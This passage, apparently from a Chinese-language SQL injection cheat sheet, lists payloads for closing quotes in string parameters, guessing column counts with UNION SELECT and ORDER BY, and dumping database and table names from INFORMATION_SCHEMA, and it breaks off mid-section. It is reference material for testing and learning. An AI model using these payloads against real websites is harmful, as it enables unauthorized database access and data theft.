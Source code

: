 #### 字符型注入

参数被引号包围，我们需要闭合引号。

```text
chybeta.php?id=1'
chybeta.php?id=1"
chybeta.php?id=1' and '1'='1
chybeta.php?id=1" and "1"="1
```

### 联合查询

#### 查询列数

用UNION SELECT注入时，若后面要注出的数据的列与原数据列数不同，则会失败。所以需要先猜解列数。

**UNION SELECT**

```text
UNION SELECT 1,2,3 #
UNION ALL SELECT 1,2,3 #
UNION ALL SELECT null,null,null #
```

**ORDER BY**

利用二分法

```text
ORDER BY 10 #
ORDER BY 5  #
ORDER BY 2  #
....
```

#### 查询数据库

```text
UNION SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA #
```

#### 查询表名

```text
UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() #
```

假设获取到数据库名为"databasename"后，对其进行十六进制编码得到0x64617461626173656e616d65。

```text
UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=0x64617461626173656e616d65 #
```

#### 查询列名

由前一步获取到表名为tablename后，对其进行十六进制编码得到
